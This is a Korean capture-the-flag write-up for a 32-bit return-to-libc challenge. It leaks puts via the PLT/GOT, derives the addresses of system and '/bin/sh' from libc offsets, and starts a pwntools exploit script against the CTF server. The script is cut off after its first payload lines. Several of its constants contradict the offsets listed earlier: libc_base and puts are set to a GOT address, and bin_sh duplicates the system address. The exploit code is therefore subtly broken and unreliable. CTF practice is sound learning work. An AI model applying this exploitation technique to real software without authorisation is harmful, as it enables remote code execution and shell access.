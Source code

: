 <br>

1. puts **함수가 실행되기 위한 알맞은 입력값 찾기**
    - 여기서 주의할 것은 이전 문제는 64비트, 현재 문제는 32비트이므로 함수 인자 컨트롤이 다르다
        - 32비트 환경 RTL

            [RTL 기법 파헤치기](https://wogh8732.tistory.com/106?category=711515)

2. read함수로 라이브러리 주소 leak하기

3. 오프셋을 이용하여 system, /bin/sh 주소를 찾은 뒤 익스 

- 구한 값들을 이용해서 다음과 같이 페이로드를 작성하면 된다
```md
libc_base : 0xf7e01000
puts : 0xf7e60ca0
system : 0xf7e3bda0
/bin/sh : 0xf7f5ca0b
puts_offset(puts - libc_base) : 0x5fca0
sys_offset(system - libc_base) : 0x3ada0
bin_offset(/bin/sh - libc_base) : 0x15ba0b

puts_addr - puts_offset = y_libc_base
y_libc_base + sys_offset = system_addr
y_libc_base + bin_offset = /bin/sh/_addr

puts 주소 leak을 위한 입력값 :
→ ret(print plt) + 메인주소 + print got)

익스를 위한 최종 입력값 :
→ ret(system) + 더미 + "/bin/sh"주소 
```

<br><br><br>
### 3. 풀이

최종 익스 코드는 다음과 같다
```python
from pwn import *
#context.log_level = "debug"

p=remote("ctf.j0n9hyun.xyz",3010)
#p=process("./rtl_world")
#gdb.attach(p)
p.recvuntil(">>> ")

p.sendline("5")

p.recvuntil("[Attack] > ")


#gatget
puts_plt = p32(0x80485a0)
puts_got = p32(0x804b01c)

libc_base = 0x804b01c
puts = 0x804b01c
system = 0xf7e3bda0
bin_sh = 0xf7e3bda0

puts_offset = 0x5fca0
sys_offset = 0x3ada0
bin_offset = 0x15ba0b


payload = "A"*144
payload += puts_plt
```